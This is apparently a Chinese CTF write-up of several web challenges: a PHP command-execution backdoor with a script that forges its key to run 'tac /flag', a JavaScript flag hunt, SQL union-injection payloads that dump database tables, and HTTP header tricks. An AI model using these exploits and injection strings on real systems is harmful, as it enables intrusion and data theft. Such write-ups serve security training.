

智械危机(decrypt)
robots.txt得到提示
<?php
function execute_cmd($cmd) {
system($cmd);
}
function decrypt_request($cmd, $key) {
$decoded_key = base64_decode($key);
$reversed_cmd = '';
for ($i = strlen($cmd) - 1; $i >= 0; $i--) {
$reversed_cmd .= $cmd[$i];
}
$hashed_reversed_cmd = md5($reversed_cmd);
if ($hashed_reversed_cmd !== $decoded_key) {
die("Invalid key");
}
$decrypted_cmd = base64_decode($cmd);
return $decrypted_cmd;
}
if (isset($_POST['cmd']) && isset($_POST['key'])) {
execute_cmd(decrypt_request($_POST['cmd'],$_POST['key']));
}
else {
highlight_file(__FILE__);
}
?> exp:
<?php
$cmd = "tac /flag";
$encrypted_cmd = base64_encode($cmd); // 传入
$reversed_encrypted_cmd = '';
for ($i = strlen($encrypted_cmd) - 1; $i >= 0; $i--) {
$reversed_encrypted_cmd .= $encrypted_cmd[$i];
}
$hashed_reversed_encrypted_cmd = md5($reversed_encrypted_cmd);
$key = base64_encode($hashed_reversed_encrypted_cmd); // 传入
echo $encrypted_cmd . "\n";
echo $key . "\n";会赢吗(js)
查看源码
<!-- flag第一部分：ZmxhZ3tXQTB3，开始你的新学期吧！:/4cqu1siti0n --><script>
async function revealFlag(className) {
try {
const response = await fetch(`/api/flag/${className}`, {
method: 'POST',
headers: {
'Content-Type': 'application/json'
}
});
if (response.ok) {
const data = await response.json();
console.log(`恭喜你！你获得了第二部分的 flag: ${data.flag}\n……\n时光荏苒，你成长了很多，也发生了一些事情。去看看吧：/${data.nextLevel}`);
} else {
console.error('请求失败，请检查输入或服务器响应。');
}
} catch (error) {
console.error('请求过程中出现错误:', error);
}
}
// 控制台提示
console.log("你似乎对这门叫做4cqu1siti0n的课很好奇？那就来看看控制台吧！");
</script>{"flag":"IV95NF9yM2Fs","nextLevel":"s34l"}<script>
document.addEventListener('DOMContentLoaded', function () {
const form = document.getElementById('seal_him');
const stateElement = document.getElementById('state');
const messageElement = document.getElementById('message');
form.addEventListener('submit', async function (event) {
event.preventDefault();
if (stateElement.textContent.trim() !== '解封') {
messageElement.textContent = '如何是好？';
return;
}
try {
const response = await fetch('/api/flag/s34l', {
method: 'POST',
headers: {
'Content-Type': 'application/json'
},
body: JSON.stringify({ csrf_token: document.getElementById('csrf_token').value })
});
if (response.ok) {
const data = await response.json();
messageElement.textContent = `第三部分Flag: ${data.flag}, 你解救了五条悟！下一关: /${data.nextLevel || '无'}`;
} else {
messageElement.textContent = '请求失败，请重试。';
}
} catch (error) {
messageElement.textContent = '请求过程中出现错误，请重试。';
}
});
});
</script>
{"flag":"MXlfR3I0c1B","nextLevel":"Ap3x"}
{"flag":"fSkpKcyF9","nextLevel":null}flag{WA0w!_y4_r3al1y_Gr4sP_JJJs!}谢谢皮蛋
源码里提示
$sql="SELECT uname,position FROM hexo WHERE id=$id LIMIT 0,1";
或许你可以了解下联合注入# 检测回显
-1 union select 1,2#
#查表名 Fl4g,hexo
-1 union select group_concat(table_name),2 from information_schema.tables where table_schema=database()#
#查列名 id,des,value
-1 union select group_concat(column_name),2 from information_schema.columns where table_name='Fl4g'#
#getflag
-1 union select des,value from Fl4g#PangBai 过家家（1）

在响应包中发现了Location
Location 首部指定的是需要将页面重新定向至的地址。一般在响应码为 3xx 的响应中才会有意义。
于是直接访问，得到了新的cookie解密发现为level2

尝试GET请求ask=miao，拿到下一关cookie

加上之前的GET请求后显示 用另一种方法（Method）打声招呼（say=hello）吧 ~ 那就POST请求
来到第四关